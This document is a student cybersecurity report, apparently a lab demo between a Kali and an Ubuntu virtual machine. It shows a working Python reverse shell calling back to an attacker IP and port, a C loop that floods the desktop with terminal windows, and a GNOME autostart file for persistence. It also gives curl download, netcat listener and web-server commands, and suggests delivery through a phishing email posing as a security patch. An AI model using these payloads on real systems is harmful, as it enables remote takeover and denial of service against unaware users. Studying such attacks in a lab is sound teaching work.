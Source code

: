 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/reverseshell.png)

# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.

![Startup Application Preferences](images/startupapplications.png)

So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

